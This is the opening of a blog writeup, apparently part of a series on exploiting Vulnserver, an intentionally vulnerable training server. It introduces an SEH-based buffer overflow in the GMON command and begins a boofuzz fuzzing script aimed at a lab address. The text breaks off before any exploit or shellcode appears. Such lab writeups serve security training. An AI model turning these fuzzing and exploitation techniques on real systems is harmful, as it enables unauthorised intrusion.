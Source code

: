 ```yaml
---
title: "Vulnserver Part 2 - GMON"
published: 2021-09-14T12:01:00-04:00
updated: 2021-09-30T12:01:00-04:00
categories:
  - writeup
tags:
  - vulnserver
  - windows
  - bufferoverflow
  - binary
  - exploit
  - bof
summary: In the second part of our Vulnserver series we encounter a SEH-based buffer overflow. SEH stands for Structured Exception Handling. The exploitation process is sligthly different... 
---
```


In the second part of [our Vulnserver series](/posts/vulnserver_0_overview.html) we encounter a SEH-based buffer overflow. SEH stands for **Structured Exception Handling**. The exploitation process is sligthly different, but not really much harder than the vanilla buffer overflow of [TRUN](/posts/vulnserver_1_trun.html). 


1. [Fuzzing](#fuzzing)
2. [Proof of Concept](#proof-of-concept)
3. [Not Quite the Same](#not-quite-the-same)
4. [Controlling NSEH and SEH](#controlling-nseh-and-seh)
5. [Bad Characters](#bad-characters)
6. [Pop Pop Return](#pop-pop-return)
7. [Short Jump out of NSEH](#short-jump-out-of-nseh)
8. [Long Jump to the Buffer Start](#long-jump-to-the-buffer-start)
9. [Shellcode](#shellcode)

## Fuzzing

I just re-used the fuzzer from [TRUN](/posts/vulnserver_1_trun.html#fuzzing-for-a-crash), switching out only the command. The result was pretty much the same.

```python
#!/usr/bin/env python3
# GMON - Step 0 -- Fuzzing for a crash
from boofuzz import *
import time
import sys

target_ip = "10.0.2.74"
target_port = 9999

# stop when server is dead
def is_alive(target, my_logger, session, *args, **kwargs):
    try:
        banner = target.recv(10000)

        # See if we received the standard banner
        if not banner or banner != b'Welcome to Vulnerable Server! Enter HELP for help.\n':
            raise Exception("Banner does not match")
    except:
        print("Unable to connect. Target is down. Exiting.")
        sys.exit(1)

def main():
    session = Session(
    sleep_time=1,
```